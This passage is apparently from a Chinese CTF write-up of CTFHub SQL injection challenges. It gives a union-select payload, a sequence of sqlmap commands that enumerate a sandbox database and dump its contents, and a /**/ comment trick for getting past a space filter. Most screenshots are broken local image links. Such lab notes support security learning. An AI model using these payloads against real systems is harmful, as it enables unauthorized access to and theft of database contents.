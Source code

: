 ![image-20220609213524503](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609213524503.png)

**查询字段信息：**-1 union select 1,group_concat(xglmorvoqs) from sqli.wvzxmdldse

![image-20220609213644250](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609213644250.png)

##### 方法二：sqlmap

```
python sqlmap.py -u "http://challenge-14cd98dd43f8801f.sandbox.ctfhub.com:10800/?id=1" --level 3 --dbs
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609234331986.png" alt="image-20220609234331986" style="zoom:80%;" />

```
python sqlmap.py -u"http://challenge-14cd98dd43f8801f.sandbox.ctfhub.com:10800/?id=1" --level 3 -D sqli --tables
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609234852569.png" alt="image-20220609234852569" style="zoom:80%;" />

```
python sqlmap.py -u"http://challenge-14cd98dd43f8801f.sandbox.ctfhub.com:10800/?id=1" --level 3 -D sqli -T oujeaeuenc --columns
```

![image-20220610001330115](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610001330115.png)

```
python sqlmap.py -u "http://challenge-14cd98dd43f8801f.sandbox.ctfhub.com:10800/?id=1" --level 3 -D sqli -T oujeaeuenc -C kdulqytdrv --dump
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610003128596.png" alt="image-20220610003128596" style="zoom:80%;" />

#### ***Refer注入

![image-20220610003721442](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610003721442.png)

![image-20220610004050816](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004050816.png)

![image-20220610004142559](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004142559.png)

![image-20220610004246002](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004246002.png)

### **过滤空格

此处过滤的方法为/**/，将所有空格替换即可

```
-1/**/union/**/select/**/1,database()
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004636702.png" alt="image-20220610004636702" style="zoom:80%;" />
